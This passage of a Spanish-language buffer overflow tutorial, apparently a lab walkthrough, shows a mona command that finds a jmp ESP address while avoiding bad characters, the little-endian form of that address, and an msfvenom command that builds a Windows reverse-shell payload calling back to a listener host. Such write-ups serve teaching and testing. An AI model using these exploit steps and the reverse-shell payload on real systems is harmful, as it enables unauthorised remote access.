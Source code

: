 ## Obteniendo la dirección de jmp ESP

Para obtener la dirección de jmp ESP haremos uso de los badchars con lo siguiente comando

```php
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

Con el anterior podremos obtener la dirección de ESP, como podemos en la siguiente imagen

![20240228092705.png](20240228092705.png)

La dirección que obtenemos es:`0x625011AF`

Lo que haremos con esta dirección será ponerla de manera contraria para luego colocarla en nuestro script

```php
\xAF\x11\x50\x62
```

## Generando payload

Ahora usaremos `msfvenom` para generar nuestro payload y haciendo uso de los badchars que no queremos que tenga en cuenta al generar

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x23\x3c\x83\xba" -f c
```

Luego de generar nuestro payload, añadiremos en nuestro script 

![20240228093230.png](20240228093230.png)
